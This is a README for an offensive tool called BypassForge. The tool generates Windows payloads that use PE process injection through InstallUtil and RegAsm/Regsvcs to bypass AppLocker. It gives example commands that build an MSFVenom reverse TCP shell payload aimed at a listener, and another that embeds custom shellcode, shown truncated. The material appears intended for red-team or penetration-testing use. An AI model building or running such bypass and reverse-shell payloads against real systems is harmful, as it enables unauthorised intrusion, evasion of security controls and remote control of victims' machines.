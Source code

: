 # BypassForge
Generate Payloads utilizing Process Injection techniques for Living-off-the-Land Applocker Bypass Executables like InstallUtil and RegAsm/Regsvcs in Windows. Currently only two LOL Binaries are supported (InstallUtil & RegAsm/Regsvcs) along with one Process Injection technique (PE Injection). Later on, other techniques and binaries will be added to the tool.

# Example Usage
The script can be used in two modes:
- **MSF Mode**
Parameters like listener IP, listener port and MSF payload type are specified, based on which MSFVenom payload is generated and added to the final binary.
```
python BypassForge.py -b InstallUtil,RegAsm -lh 127.0.0.1 -lp 8080 --payload windows/x64/shell_reverse_tcp
```
![image](https://github.com/user-attachments/assets/047de769-d90f-4350-b7c9-96ce3382d891)


- **Custom Shellcode Mode**
Custom shellcode which are created using 3rd party tools like micr0_shell (https://github.com/senzee1984/micr0_shell) or manually created is specified. This shellcode is added to the final payload binary.
```
python BypassForge.py -b InstallUtil,RegAsm --custom --hex-shellcode 4831d265488b42604<SNIP>c9515151514989c84989c9ffd0
```
![image](https://github.com/user-attachments/assets/c60a0235-f614-4823-9fc9-606c4f5e59be)

